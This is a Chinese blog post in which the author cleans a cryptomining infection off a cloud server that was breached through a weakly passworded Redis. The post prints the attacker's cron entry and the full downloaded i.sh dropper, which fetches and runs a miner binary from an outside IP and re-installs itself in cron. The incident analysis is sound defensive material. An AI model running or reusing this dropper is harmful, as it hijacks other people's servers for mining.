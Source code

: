 >emmm，长话短说，阿里云服务器被挂矿机了。

### 背景

事情还得从两三天前说起。7-31阿里云给我发了一个短信。
![](https://upload-images.jianshu.io/upload_images/5786888-153b90c3e0cc93fd.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


我还专门和朋友谈(chao)论(feng)Root被提权是什么鬼逻辑，然后就没理。。因为服务器是自己玩的用，开发阶段给前端暴露api用的，没什么重要的数据。然后：
![](https://upload-images.jianshu.io/upload_images/5786888-a9ea41fafe2364b6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

这个短信又发生在8-2号，What，大男子主义上来了，觉得这`13`有点过分了，有点变本加厉的意思了，然后就说去看看。（当时第一想法就是去看看进程有啥异样）

### 看一看
![](https://upload-images.jianshu.io/upload_images/5786888-7af4a104cb0d09ad.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

wtf，简直不要`13 face`，cpu占用99.3%，那我用0.7%吗。

##### 去`.ssh`目录看看
```
[root@FantJ .ssh]# ls
authorized_keys
```
这可是无密登录的钥匙啊！用于主机之间的无密通信。果断删。

##### 查查这个命令在哪
```
[root@FantJ ~]# find / -name qW3xT*
/tmp/qW3xT.2
```
##### 捕捉异常

![记住这个画面](https://upload-images.jianshu.io/upload_images/5786888-7eb3ca587ee35146.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![发现可疑线程](https://upload-images.jianshu.io/upload_images/5786888-49d46c7ce5967892.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![终止矿机脚本](https://upload-images.jianshu.io/upload_images/5786888-0c8b64423b572e1f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![又出来了](https://upload-images.jianshu.io/upload_images/5786888-d9ef8567598f2b07.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

我为什么会针对它：
1. PID号很大，证明是新线程
2. 每次我kill了矿机，它就会执行，然后就消失。（后面会证明这个言论）
3. 从cpu的稳定来看，没有执行新指令cpu一般均衡。

### 杀除相关进程
```
 1022  ps -aux|grep ddg
 1023  kill 11938
 1024  kill 27507
```

### 寻找`ddgs.3013`
```
[root@FantJ ~]# find / -name ddgs.3013
/tmp/ddgs.3013
```

### 定时任务？
干了前面觉得还是没有弄干净，所以我想去看看定时任务列表。
```
[root@FantJ tmp]# crontab -l

*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh
```
emmm，这一刻真是激动和喜悦。
```
curl 的这几个 optional 介绍,我也是百度的
-f  - fail在HTTP错误（H）上静默失败（根本没有输出）
-s  -silent静音模式。 不要输出任何东西
      --socks4 HOST [：PORT]给定主机+端口上的SOCKS4代理
      --socks4a HOST [：PORT]给定主机+端口上的SOCKS4a代理
      --socks5 HOST [：PORT]给定主机+端口上的SOCKS5代理
      --socks5-hostname HOST [：PORT] SOCKS5代理，将主机名传递给代理
      --socks5-gssapi-service名称为gssapi的SOCKS5代理服务名称
      --socks5-gssapi-nec与NEC SOCKS5服务器的兼容性
-S   --show-error显示错误。 使用-s时，make curl会在出现错误时显示错误
-L   --location遵循重定向（H）
      --location-trusted like --location并将auth发送给其他主机（H）
```
```
[root@FantJ tmp]# crontab -r 
[root@FantJ tmp]# crontab -l
no crontab for root
```
那又得查查这个i.sh了，突然想起有个定时任务，然后我把定时任务的job运行了以下：
```
[root@FantJ tmp]# curl -fsSL http://149.56.106.215:8000/i.sh
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

echo "" > /var/spool/cron/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/root


mkdir -p /var/spool/cron/crontabs
echo "" > /var/spool/cron/crontabs/root
echo "*/15 * * * * curl -fsSL http://149.56.106.215:8000/i.sh | sh" >> /var/spool/cron/crontabs/root


ps auxf | grep -v grep | grep /tmp/ddgs.3013 || rm -rf /tmp/ddgs.3013
if [ ! -f "/tmp/ddgs.3013" ]; then
    
    curl -fsSL http://149.56.106.215:8000/static/3013/ddgs.$(uname -m) -o /tmp/ddgs.3013
fi
chmod +x /tmp/ddgs.3013 && /tmp/ddgs.3013

ps auxf | grep -v grep | grep Circle_MI | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep get.bi-chi.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep hashvault.pro | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep nanopool.org | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep minexmr.com | awk '{print $2}' | xargs kill
ps auxf | grep -v grep | grep /boot/efi/ | awk '{print $2}' | xargs kill
#ps auxf | grep -v grep | grep ddg.2006 | awk '{print $2}' | kill
#ps auxf | grep -v grep | grep ddg.2010 | awk '{print $2}' | kill
```
注意这个命令不会下载和执行sh脚本。因为我把管道符去掉了。看到的仅仅是打印的信息。
大概说下这个脚本的意思：
1. 设置环境变量，写定时任务
2. 查看ddgs.3013进程，如果没有该进程，重新下载该文件，然后给它加执行权限，并执行。
3. 批量根据关键字杀进程。

我发现有个`grep minexmr.com`.打开一看，其他网站同理。
![](https://upload-images.jianshu.io/upload_images/5786888-25b28efb02cd35c0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](https://upload-images.jianshu.io/upload_images/5786888-3aac197d756c3535.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](https://upload-images.jianshu.io/upload_images/5786888-d602168274bd5221.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

### 反思
>问题解决了，过段时间再看看进程情况，应该是没有了，可以说杀的挺彻底了。那么这问题为什么会出现呢。

还得回到阿里云给我的提示：redis。因为自己玩，所以redis的密码我设置的很简单`root`，被扫到也是很不费劲的事，然后我把密码进行改正。（通过配置文件`requirepass`或者`redis-cli``config set requirepass xxxx`），更安全的话，把bindIp设置成自己用的，然后更改默认端口。我没有重要数据，所以稍微意思下就行了，下次再来我再折腾。

不过这个`13`有个很良心的操作，就是没有删我的redis的keys，很有职业操守。但是还是被金钱奴隶。
